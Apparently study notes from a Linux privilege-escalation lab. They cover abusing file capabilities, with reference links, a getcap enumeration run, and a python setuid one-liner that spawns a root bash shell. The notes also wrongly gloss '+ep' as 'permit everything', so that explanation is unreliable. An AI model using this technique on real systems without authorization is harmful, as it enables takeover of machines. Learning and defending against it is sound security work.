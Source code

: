 ### Capabilities

Linux Privilege Escalation using Capabilities - https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

SUID vs Capabilities - https://mn3m.info/posts/suid-vs-capabilities/

Linux Capabilities Privilege Escalation - https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099



```
TCM@debian:~$ getcap -r / 2>/dev/null
/usr/bin/python2.6 = cap_setuid+ep
```

The `+ep` means 'permit everything'.  While this works like SUID's, in order to find this, you'll use the `getcap` command listed in the code snippet above.

`/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`    - we can then use this command to pop ourselves a root shell.